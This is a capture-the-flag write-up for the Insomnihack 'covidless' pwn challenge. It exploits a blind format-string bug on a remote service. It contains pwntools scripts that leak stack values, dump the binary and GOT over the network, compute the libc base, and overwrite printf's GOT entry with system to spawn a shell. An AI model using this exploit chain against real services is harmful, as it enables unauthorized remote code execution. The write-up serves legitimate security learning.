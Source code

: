 ```yaml
---
title: "[pwn] covidless"
categories:
  - CTF/pwn
tags:
  - fmtstr
  - overwriteGOT
---
```


The only info provided was ip addr & port number. Without binary to download, then i try it, the binary has format string vuln.

```bash
$ nc covidless.insomnihack.ch 6666
%8$p
Your covid pass is invalid : 0x5379334b5f763172
try again ..

%9$p
Your covid pass is invalid : 0x5f74304e6e34635f
try again ..
```

```python
#!/usr/bin/python3
from pwn import *
context.log_level='critical'

for i in range(1, 100):
    r = remote('covidless.insomnihack.ch', '6666')

    # r.sendline(f'%{i}$s')   #1
    r.sendline(f"%{i}$016lx") #2

    data = r.recvline()[29:-1]
    if(data != b'(null)'):
        print(i, data)
    r.close()
```

with `#1` i obtain some info

```bash
59 b'./covidless'
61 b'REMOTE_HOST=::ffff:14.177.85.188'
69 b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
73 b'LD_PRELOAD=./libc6_2.27-3ubuntu1_amd64.so'
84 b'\x7fELF\x02\x01\x01'
```

and output from 2 consecutive runs, it has some same

```bash
1 b'0000000000400934'
6 b'74346e3143633456'
7 b'505f44315f6e6f31'
8 b'5379334b5f763172'
9 b'5f74304e6e34635f'
30 b'0000000000400890' <- A return address that points into
35 b'000000000040075a'    the .text segment of the program
```

We can assume that PIE is off (the `.text` segment addresses are the same each time).

The .text segment likely starts at `0x400000`

```python
# dump.py
#!/usr/bin/python3
from pwn import *

binary = b""
leak = b""
io = remote('covidless.insomnihack.ch', 6666)
addr = 0x400000 # 0x601000
while addr != 0x402000:# 0x602000
    if '0a' in hex(addr):
        leak = b"0"
        binary += b'\0'
    else:
        payload = b"%13$sAAA"+p64(addr)
        io.sendline(payload)
        io.recvuntil(b" : ")
        leak = io.recvuntil(b"AAA",drop=True)
        if leak == b"":
            leak = b"0"
            binary += b'\0'
        else:
            binary += leak
				 print(hex(addr), '0x' + leak[::-1].hex())
    with open('bin','wb+') as f:
        f.write(binary)
    addr += len(leak)

$ ./dump.py > log.txt
```

look at import tab in ida, the GOT located at offset `0x601000` run it again with new addr

log.txt + [symbols on libc](https://libc.blukat.me/d/libc6_2.27-3ubuntu1_amd64.symbols) :

```bash
0x601000 0x600e20
0x601008 0x7fddfa0fe170
0x60100e 0x30
0x60100f 0x30
0x601010 0x7fddf9eea8f0
0x601016 0x30
0x601017 0x30
0x601018 0x7fddf9b629c0 -> _IO_puts
0x60101e 0x30
0x60101f 0x30
0x601020 0x4005f6
0x601028 0x7fddf9b46e80 -> _IO_printf
0x60102e 0x30
0x60102f 0x30
0x601030 0x7fddf9c70f50 -> _snprintf
0x601036 0x30
0x601037 0x30
0x601038 0x7fddf9b60b20 -> _IO_fgets, fgets
0x60103e 0x30
0x60103f 0x30
0x601040 0x7fddf9b8be70 -> __snprintf_chk
0x601046 0x30
0x601047 0x30
0x601048 0x7fddf9b607e0 -> _IO_2_1_stdin_
0x601060 0x7fddf9ece760
0x601071 0x7fddf9ecda
```

---

## Strategy

1. Leak the glibc base addr from GOT
2. Overwrite the GOT entry of `printf` with `system` using a format str
3. Get a shell

```python
# xpl.py
#!/usr/bin/env python3
from pwn import *

uu64 = lambda x : u64(x.ljust(8, b'\x00'))

def start(argv=[], *a, **kw):
    return remote('covidless.insomnihack.ch', 6666, *a, **kw)
gs = '''
init-pwndbg
continue
'''.format(**locals())

context.clear(arch = 'amd64')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')
# warning/info/debug
context.log_level = 'info'

def get_returned_value():
    data = io.recvline().replace(b"\ntry again ..\n\n", b"")[29:]
    return data

def read_address(addr):
    payload = b"%14$s".ljust(16, b",")
    payload += p64(addr)
    io.sendline(payload)

    data = get_returned_value()
    print(data)
    return data.split(b',')[0]

globalOffsetTable = {
    'puts': 0x601018,
    'printf': 0x601028,
}
io = start()

# lazy linking for puts()
io.sendline(b'')
io.recvuntil(b'\n\n')

libc.address = uu64(read_address(globalOffsetTable['puts'])) - libc.sym.puts
log.info("base = %#x", libc.address)

payload_writes = {
    globalOffsetTable['printf']: libc.sym['system']
}
io.sendline(fmtstr_payload(12, payload_writes, write_size='short'))
io.sendline(b'/bin/sh')
io.interactive()
```

